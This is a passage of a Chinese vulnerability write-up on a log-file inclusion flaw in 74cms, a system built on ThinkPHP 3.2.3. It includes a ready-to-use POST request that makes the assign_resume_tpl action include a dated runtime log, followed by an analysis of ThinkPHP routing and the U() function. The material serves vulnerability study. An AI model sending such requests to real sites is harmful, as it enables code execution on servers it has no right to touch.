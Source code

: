 2. 查看日志会发现已经记录了错误  
位置：\phpstudy_pro\WWW\data\Runtime\Logs\Home  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsj834jw1HQjHYLQjnWLrvBakOur98RFUZZjaOZD1KFDl0Gm8fLcrPFZ6BibBM8KBrXWDJ1eK1TpHhw/640?wx_fmt=png)

  
3. 包含日志

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=data/Runtime/Logs/Home/20_12_12.log
```

日志名称就是当天的年月日，直接包含即可  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsj834jw1HQjHYLQjnWLrvBalA7gJ0bWUNibTECsEEnvIltKwrowuUaB5jt258XR1qLYFzu1ZSicSCxA/640?wx_fmt=png)

**0x06 漏洞分析**  

  

**路由：**

74cms 利用了 thinkphp3.2.3 进行构建，查看 ThinkPHP\Conf\convention.php 中的路由配置：

```
/* 系统变量名称设置 */
    'VAR_MODULE'            =>  'm',     // 默认模块获取变量
    'VAR_ADDON'             =>  'addon',     // 默认的插件控制器命名空间变量
    'VAR_CONTROLLER'        =>  'c',    // 默认控制器获取变量
    'VAR_ACTION'            =>  'a',    // 默认操作获取变量
    'VAR_AJAX_SUBMIT'       =>  'ajax',  // 默认的AJAX提交变量
    'VAR_JSONP_HANDLER'     =>  'callback',
    'VAR_PATHINFO'          =>  's',    // 兼容模式PATHINFO获取变量，例如 ?s=/module/action/id/1 后面的参数取决于URL_PATHINFO_DEPR
    'VAR_TEMPLATE'          =>  't',    // 默认模板切换变
    'VAR_AUTO_STRING'       =>  false,  // 输入变量是否自动强制转换为字符串 如果开启则数组变量需要手动传入变量修饰符获取变量

    'HTTP_CACHE_CONTROL'    =>  'private',  // 网页缓存控制
    'CHECK_APP_DIR'         =>  true,       // 是否检查应用目录是否创建
    'FILE_UPLOAD_TYPE'      =>  'Local',    // 文件上传方式
    'DATA_CRYPT_TYPE'       =>  'Think',    // 数据加密方式
```

调用控制器中的某个方法便可以使用如下请求形式：

```
?m=&c=&a=&variable1=&variable2=...
```

  
在 ThinkPHP\Common\functions.php 的 url 方法已经给出了说明：  

```
/**
 * URL组装 支持不同URL模式
 * @param string $url URL表达式，格式：'[模块/控制器/操作#锚点@域名]?参数1=值1&参数2=值2...'
 * @param string|array $vars 传入的参数，支持数组和字符串
 * @param string|boolean $suffix 伪静态后缀，默认为true表示获取配置值
 * @param boolean $domain 是否显示域名
 * @return string
 */
function U($url='',$vars='',$suffix=true,$domain=false,$type=false,$module_type=false) {
    // 解析URL
   ...
    return $url;
}
```
